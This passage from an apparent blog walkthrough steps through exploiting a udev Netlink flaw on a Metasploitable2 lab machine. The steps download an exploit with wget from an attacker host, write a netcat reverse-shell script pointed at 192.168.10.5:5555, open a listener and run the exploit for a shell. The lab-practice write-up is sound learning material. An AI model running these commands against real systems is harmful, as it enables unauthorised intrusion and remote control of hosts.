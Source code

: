 **ParrotOS IP: 192.168.10.5**

**wget 192.168.10.5/ehsahil.c**

![](https://cdn-images-1.medium.com/max/800/1*6437GUmATZsYh_JTFCKDLg.png)

our exploit code “ehsahil.c” has been copied to /tmp directory.

4\. Creating a run file in /tmp directory — required by exploit

  
**touch run #creating run file required by the exploit**

**#bash script to get the reverse shell.   
echo '#!/bin/sh' > run   
echo '/bin/netcat -e /bin/bash 192.168.10.5 5555' >> run** 

![](https://cdn-images-1.medium.com/max/800/1*-ao3kWuYqG65en53xCUo9A.png)

5\. Compiling our exploit code.

**gcc ehsahil.c -o ehsahil**

![](https://cdn-images-1.medium.com/max/800/1*8Qs9R5MXSIq_H-L2CQUXLQ.png)

6\. listening on post 5555

**nc -lvnp 5555**

![](https://cdn-images-1.medium.com/max/800/1*clXSRX1L8wHiV4RzdCddWA.png)

7\. PID of the udev Netlink socket

**cat /proc/net/netlink**

![](https://cdn-images-1.medium.com/max/800/1*cGdctJb714h0xMgXfn5UzQ.png)

PID of the udev Netlink socket = **2718**

8\. Executable permission to Compiled Exploit.

**chmod 755 ehsahil**

9\. Exploit.

./ehsahil <Netlink-Socket-address>

**./ehsahil 2718**

Reverse shell obtained.

![](https://cdn-images-1.medium.com/max/800/1*NXrCXP_SBQoWBZqyUHJ_yg.png)

I will post more metasploitable2 common exploits as I practice them.

### Credits

**RWB NetSec**

* [**rwbnetsec** ](https://www.youtube.com/channel/UCAJ8Clc3188ek9T_5XTVzZQ?pbjreload=10 "https://www.youtube.com/channel/UCAJ8Clc3188ek9T_5XTVzZQ?pbjreload=10")[](https://www.youtube.com/channel/UCAJ8Clc3188ek9T_5XTVzZQ?pbjreload=10)

Feedback? hit me on twitter @[ehsahil](https://twitter.com/ehsahil)

Until Next time.
